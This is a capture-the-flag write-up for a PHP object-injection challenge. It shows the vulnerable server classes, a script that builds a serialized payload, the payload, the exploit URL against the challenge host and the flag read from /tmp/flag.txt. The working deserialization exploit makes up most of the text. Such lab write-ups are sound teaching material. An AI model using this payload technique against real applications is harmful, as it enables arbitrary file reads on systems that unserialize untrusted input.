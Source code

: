 # CTF Name – I Object!

- **Category:** category
- **Points:** points

## Challenge

> The Seekurity team has created a wonderful app to demonstrate how to pop your first PHP Objection Exploit. There is more than enough here to help you get the flag at /tmp/flag.txt

> See this as a nice tutorial to some more Objection challenges in the CTF (:

http://objection-ctf.seekurity.com.au:8234/

## Solution

Server code
```php
class ReadFile{
   public function __toString()
   {
      return file_get_contents(($this->filename));
   }
}

class User{
   public $username;
   public $isAdmin;

   public function PrintData(){
      if($this->isAdmin){
         echo $this->username . " is admin";
      } else {
         echo $this->username . "is not admin";
      }
   }
}
```

Payload generator code
```php
<?php 
   class ReadFile{
      public function __construct()
      {
         $this->filename = "/tmp/flag.txt";
      }
   }
   class User{
      public function __construct()
      {
         $this->username = new ReadFile();
         $this->isAdmin = True;
      }
   }
   $user = new User;
   echo serialize($user)

?>
```

Payload: 

`O:4:"User":2:{s:8:"username";O:8:"ReadFile":1:{s:8:"filename";s:13:"/tmp/flag.txt";}s:7:"isAdmin";b:1;}%`
http://objection-ctf.seekurity.com.au:8234/?r=O:4:"User":2:{s:8:"username";O:8:"ReadFile":1:{s:8:"filename";s:13:"/tmp/flag.txt";}s:7:"isAdmin";b:1;}

```
flag{My_V3ry_f1r5t_PHP_0bjection5_fl4g1}
```
